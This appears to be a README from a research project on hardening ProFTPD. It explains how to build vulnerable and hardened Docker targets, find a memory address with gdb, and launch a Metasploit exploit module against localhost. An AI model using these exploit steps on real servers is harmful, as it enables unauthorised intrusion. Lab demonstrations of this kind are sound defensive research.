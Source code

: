 ## Running the `proftp_sreplace_getkey` exploit

1. Build and run the images.
```sh
docker build -t vuln-proftpd -f vulnTarget.Dockerfile .
docker run -d --name vuln-target vuln-proftpd
docker build -t hardened-proftpd -f hardenedTarget.Dockerfile .
docker run -d --name hardened-target hardened-proftpd
```
2. Exec into the container (`vuln-target` for the original ProFTPD version, and `hardened-target` for the one compiled with the pass).
```
docker exec -it --privileged vuln-target bash
```
2. In the container, run `gdb -p $(pgrep -f 'proftpd.*accepting')` to get the required memory address for the exploit.
```gdb
(gdb) i proc m

# Pick the data section of one library, for example:
0xb7677000 0xb767e000     0x7000   0x1a2000 /lib/i386-linux-gnu/libcrypto.so.1.0.0

# Also, make sure it doesn't have any zero bytes, so add 1 to it
# 0xb7677000, getting 0xb7677001
```
3. Run `msfconsole` and:
```
use exploit/windows/ftp/proftp_sreplace_getkey
set rhost 127.0.0.1
set non_empty_high 0xb7677001
exploit
```
